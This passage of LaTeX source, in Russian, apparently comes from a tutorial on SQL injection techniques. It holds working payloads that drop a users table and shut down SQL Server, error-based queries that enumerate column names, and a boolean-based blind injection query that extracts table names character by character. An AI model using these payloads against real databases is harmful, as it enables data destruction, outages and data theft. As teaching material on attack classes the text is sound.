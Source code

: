 \begin{itemize}
    Также можно, к примеру, удалить таблицу или выключить SQL сервер.
    
    \begin{grayquote}
        \#Удаление таблицы\\
        SELECT * FROM products WHERE productName = ""; DROP users--\\
        \#Выключение SQL Server\\
        SELECT * FROM products WHERE productName = ""; shutdown –
    \end{grayquote}


    \item \textbf{Error-based injection}\\
    Инъекции, основанные на том, что злоумышленник может видеть вывод ошибки. Уязвимость устраняется просто отключением этого вывода

    Последовательное выполнение следующих запросов может помочь определить в тексте ошибки названия столбцов:\\
    \begin{grayquote}
        ' HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1 HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --\\
        .....\\
        ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --\\
        Если ошибки перестали появляться, значит столбцы закончились
    \end{grayquote}

    \item \textbf{Boolean-based blind injection}\\
    Если атакующий все же может получить информацию о наличии или отсутствии ошибки из HTTP-статуса, в сервисе имеется уязвимость к обычной слепой атаке. Рассмотрим запрос, который позволит нам при помощи алгоритма бинарного поиска посимвольно определить название первой таблицы и в дальнейшем всех данных

    \begin{grayquote}
        TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND \\
        ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND\\
        name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--\\
        \#Этот запрос говорит нам, что ASCII-значение первого символа больше 78 \\
        \#дальнейший перебор определит точное значение
    \end{grayquote}


\end{itemize}
